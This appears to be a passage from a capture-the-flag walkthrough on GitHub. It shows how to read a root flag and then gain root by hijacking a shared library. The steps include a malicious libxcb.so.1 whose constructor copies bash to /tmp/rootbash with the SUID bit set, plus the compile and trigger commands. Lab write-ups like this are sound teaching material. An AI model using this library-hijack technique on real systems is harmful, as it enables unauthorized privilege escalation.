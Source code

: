 ```
ls
```

you must find ``exploit.jpg`` &  ``libxcb.so.1``

![image](https://github.com/user-attachments/assets/8869a38e-ef10-432c-a74d-c13c12c8036f)

now get the ``rootflag`` :

```bash
cat /tmp/root.txt
```

![image](https://github.com/user-attachments/assets/0d2931ca-cbd7-4665-a6c8-50210190c022)


---
---

if you want to be ``root``


```bash
nano exploit.c
```

```c
// exploit.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash");
}
```

do compile to library 

```
gcc -shared -fPIC -o libxcb.so.1 exploit.c
```

create new image to make script start work

```
cp entertainment.jpg exploit2.jpg
```

after script work you will find ``/tmp/rootbash`` with ``suid`` privillage

```
ls -l /tmp/rootbash
```

![image](https://github.com/user-attachments/assets/8b10cb3f-2e9f-407e-ac86-7fb5040fd2eb)


run it :
